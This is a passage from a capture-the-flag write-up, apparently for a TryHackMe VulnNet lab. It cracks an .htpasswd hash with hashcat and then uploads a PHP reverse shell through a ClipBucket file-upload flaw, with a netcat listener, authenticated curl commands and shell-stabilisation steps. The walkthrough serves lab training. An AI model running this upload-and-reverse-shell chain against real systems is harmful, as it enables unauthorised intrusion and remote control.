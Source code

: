 * Knowing that ```.htpasswd``` is used for HTTP basic authentication, we can crack this hash and use it for the domain found earlier at 'broadcast.vulnnet.thm':

  ```sh
  # hashcat example hashes shows it is a Apache hash
  vim apachehash.txt

  hashcat -a 0 -m 1600 apachehash.txt /usr/share/wordlists/rockyou.txt
  # gives "9972761drmfsls"
  ```

* Using the above creds and logging into 'broadcast.vulnnet.thm', we get access to a page called 'ClipBucket'

* Basic enumeration shows we are running ClipBucket v4.0

* Upon Googling for exploits, we get a few exploits for this version before 4.0, release 4902; there is an [unauthenticated arbitrary file upload vulnerability](https://www.exploit-db.com/exploits/44250):

  ```sh
  vim reverse-shell.php
  # edit shell to include IP and port

  nc -nvlp 4444
  # start listener

  # we can follow one of the given cURL requests for unauthenticated arbitrary file upload
  curl -F "file=@reverse-shell.php" -F "plupload=1" -F "name=reverse-shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
  # this gives 401 Unauthorized, we will have to provide creds

  curl -F "file=@reverse-shell.php" -F "plupload=1" -F "name=reverse-shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u 'developers:9972761drmfsls'
  # this shows success
  # also gives us uploaded file name and directory

  # access uploaded reverse shell
  curl "http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/171412763142d90e.php" -u 'developers:9972761drmfsls'
  ```

* We get a listener on our reverse shell now:

  ```sh
  id
  # www-data

  which python
  # we do not have python

  which python3
  # we have this, we can stabilize our shell now

  # for stable shell
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm
  # Ctrl+Z now
  stty raw -echo; fg
  # press Enter key twice

  pwd
  
  ls -la /home/
  # we have a user called 'server-management'
  # but we cannot access that directory yet

  cd /tmp
  ```